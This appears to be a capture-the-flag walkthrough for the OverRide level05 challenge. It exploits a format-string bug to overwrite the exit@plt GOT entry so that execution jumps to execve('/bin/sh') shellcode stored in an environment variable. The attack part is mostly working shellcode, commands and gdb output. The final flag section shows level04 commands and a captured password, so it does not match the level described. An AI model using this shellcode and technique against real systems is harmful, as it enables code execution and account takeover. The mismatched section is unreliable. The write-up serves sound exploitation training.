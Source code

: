 # level05 walkthrough

## the binary
``` shell
level05@OverRide:~$ ./level05
MARvIN
marvin
```

## methodology
- shellcode + format string attack

As the <code>main</code> function uses <code>print</code> to output raw array data, we can leverage it to display the variables stored on the stack.

``` shell
level05@OverRide:~$ python /tmp/print_stack.py | ./level05 
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ef 0xffffd5ee (nil) 0xffffffff 0xffffd674 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Now to the shellcode - credits J. P. Pereira: [x86 execve("/bin/sh") - 28 bytes](https://shell-storm.org/shellcode/files/shellcode-811.html)
``` shell
level05@OverRide:/tmp$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
level05@OverRide:/tmp$ gcc -m32 addr.c -o addr
level05@OverRide:/tmp$ ./addr
SCODE set at 0xffffd788
```

With this knowledge, we are going to replace the <code>exit</code> function with the address of the shellcode env.
``` shell
(gdb) i func exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

Our payload is generated using an attached script. We need to split the shellcode because of the large numbers involved, as we cannot write a full 32-bit value all at once (shellcode is split into two 16-bit parts and separately injected into the lower and upper 2 bytes of the <code>exit</code> function):
``` shell
(gdb) p 0xffff
$1 = 65535
(gdb) p 0xd788
$2 = 55176
(gdb) p 55176-8
$3 = 55168
(gdb) p 65535-55176
$4 = 10359
```

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
